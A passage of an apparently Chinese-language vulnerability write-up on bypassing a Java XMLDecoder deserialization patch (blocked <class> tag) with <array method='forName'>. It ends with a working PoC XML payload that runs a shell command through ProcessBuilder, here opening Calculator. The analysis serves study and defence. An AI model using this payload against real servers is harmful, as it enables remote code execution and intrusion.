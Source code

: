 ```
    &lt;/soapenv:Header&gt;
    &lt;soapenv:Body/&gt;
&lt;/soapenv:Envelope&gt;
```

刚拿到poc的时候，看了一下思路，因为&lt;class&gt;标签被禁了，所以通过

&lt;array method=”forName”&gt;来绕过补丁。思路是比较清晰的，通过Class.forName(classname)来取到我们想要的类，从而绕过class标签被禁的问题。

但刚看到这个poc的时候，我第一个疑问就是，array居然可以使用method属性吗？所以立马去看了一下ArrayElementHandler类的内容，

[![](https://p3.ssl.qhimg.com/t011612fab5c199d572.png)](https://p3.ssl.qhimg.com/t011612fab5c199d572.png)

只支持length标签，但是它是NewElementHandler的子类，那再去看看NewElementHandler

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012facb5cd8fd7d1f7.png)

支持class标签，但是它是ElementHandler的子类，再去看一下ElementHandler

[![](https://p0.ssl.qhimg.com/dm/1024_200_/t01adb60981f479702d.png)](https://p0.ssl.qhimg.com/dm/1024_200_/t01adb60981f479702d.png)

发现到最后也没找到它支持method属性。

马上去我自己的环境里面试一下，没法复现成功，一度以为这个poc是假的，但后来想了一下，我的环境里面只有1.7和1.8的jdk，会不会是jdk版本太高了，立马去1.6试一下，果然复现成功，看来1.6的XMLDecoder的代码和1.7\1.8不太一样。

[![](https://p4.ssl.qhimg.com/dm/1024_388_/t01a8ee075d73e122fb.png)](https://p4.ssl.qhimg.com/dm/1024_388_/t01a8ee075d73e122fb.png)

去跟进一下jdk 1.6的XMLDecoder，根据原理去写一个简单一点的poc.xml，测试demo继续使用第一章的就行

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;java&gt;
    &lt;array method="forName"&gt;
        &lt;string&gt;java.lang.ProcessBuilder&lt;/string&gt;
        &lt;void&gt;
        &lt;array class="java.lang.String" length="3"&gt;
            &lt;void index="0"&gt;
                &lt;string&gt;/bin/bash&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="1"&gt;
                &lt;string&gt;-c&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="2"&gt;
                &lt;string&gt;open /Applications/Calculator.app/&lt;/string&gt;
            &lt;/void&gt;
        &lt;/array&gt;
        &lt;void method="start" /&gt;
        &lt;/void&gt;
    &lt;/array&gt;
&lt;/java&gt;
```
